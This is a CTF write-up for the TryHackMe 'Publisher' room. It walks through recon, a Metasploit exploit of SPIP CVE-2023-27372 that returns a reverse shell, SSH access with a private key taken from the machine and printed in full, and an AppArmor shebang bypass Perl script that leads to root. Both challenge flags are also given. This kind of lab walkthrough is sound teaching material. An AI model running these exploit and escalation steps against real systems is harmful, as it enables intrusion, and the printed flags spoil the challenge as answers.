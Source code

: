 ```yaml
---
title: "TryHackMe - Publisher"
date: 2025-03-20 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [linpeas, metasploit, privilege escalation, apparmor, ]

---
```

## Introduction

In this post, I will walk you through how I successfully exploited a vulnerability in SPIP [(CVE-2023-27372)](https://nvd.nist.gov/vuln/detail/CVE-2023-27372) to escalate privileges and gain root access on a vulnerable machine. This is a detailed write-up of the process, which includes scanning the target, discovering vulnerabilities, and leveraging them to gain control over the system.


## Reconnaissance

To begin, I scanned the target IP (10.10.x.x) with Nmap to gather information about the services running on the machine:

```console
nmap -sC -sV -Pn 10.10.x.x
```
Next, I performed directory enumeration using Gobuster to discover potential hidden directories or files:

```console
gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirb/common.txt
```
and 

```console
gobuster dir -u http://10.10.x.x/spip -w /usr/share/wordlists/dirb/common.txt
```
I then identified the web application using WhatWeb:

```console
whatweb http://10.10.x.x./spip
```
This revealed that the target was running SPIP, a content management system and allowed me to find out that SPIP is running version 4.2, and I am using Metasploit to search for available exploits.

```console
searchsploit spip 4.2
```
I found the following exploit:

```yaml
exploit/multi/http/spip_rce_form       2023-02-27       excellent  Yes    SPIP form PHP Injection
```
## Using Metasploit to Exploit the Vulnerability
I decided to use Metasploit to exploit the vulnerability. Here are the steps to configure and launch the attack:

```console 

msfconsole

msf6 > use exploit/multi/http/spip_rce_form

set RHOST 	IP_MACHINE
SET TARGETURI  /spip
SET LHOST	MY_IP
SET LPORT	4444

exploit

```
Once the exploit was successful, I gained a shell on the machine.

With the shell open, I was able to read the first flag:

**FLAG 1:  fa229046d44eda6a3598c73ad96f4ca5**

## Obtaining SSH Private Key

While exploring the user files, I found a private SSH key used for login. I copied it to my local machine and configured SSH access:

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```


```console
chmod 600 id_rsa
ssh -i id_rsa think@10.10.x.x
```

## Privilege Escalation

Now, I wanted to escalate my privileges to root. The hints suggested looking into AppArmor profiles. I searched for files with the SUID bit set (files that execute with the owner's permissions), which could lead to privilege escalation:

```console 

find / -perm -u=s -type f 2>/dev/null

```
One such file - **run_container.sh**, caught my attention. Checking its permissions:

```console
ls -l /opt/run_container.sh
```

Although I had write access, I was denied permission to modify it, likely due to AppArmor restrictions. I used **linpeas.sh** to gather more information about the system.


![Linpeas AppArmor](/images/apparmor.jpg)


I see that AppArmor is enabled, and I check the shell by running

```console
echo $SHELL
```
It turns out that the shell is not Bash but Ash, and there is an AppArmor profile for the current shell.
I search for more information about the Ash shell and find some details about this profile at:

<Br>**/etc/apparmor.d/usr.sbin.ash**

```console

think@publisher:/etc/apparmor.d$ cat usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}

```

Writing to many critical directories, such as /opt/, /tmp/, /dev/shm/, /var/tmp/, and user directories in /home/, is restricted. This means that many common attack techniques that rely on writing files to these locations (e.g., injecting malicious code) are blocked.

The last step is to check the binary /usr/sbin/run_container.

```console
string /usr/sbin/run_container
```

The file contains a reference to /opt/run_container.sh, which suggests that this script is one of the main components executed by the program.
Having access to run the script or modify its contents would allow me to inject my own command.

While searching online, I found a method to bypass AppArmor and create an unrestricted shell:
[ AppArmor Shebang Bypass - HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/apparmor.html#apparmor-shebang-bypass)

I just need to modify it so that it writes to **/dev/shm** instead of **/tmp**, since the rules shown earlier prohibit writing to **/tmp**.

The final script looks like this:

```console

echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /dev/shm/test.pl
chmod +x dev/shm/test.pl
dev/shm/test.pl
```

Thanks to this, I can now modify **run_container.sh**

```console
nano /opt/run_container.sh
```

And I add the following

![run_container.sh](/images/runcontainer.png)

Now, I just need to run the script.
```console
/usr/sbin/run_container
```

And I escalate to root.

```console
cd /tmp
./bash -p
whoami
root
```

Now I can read the root flag.

```console
cd /root 
cat root.txt

```


**Flag 2 :  3a4225cc9e85709adda6ef55d6a4f2ca**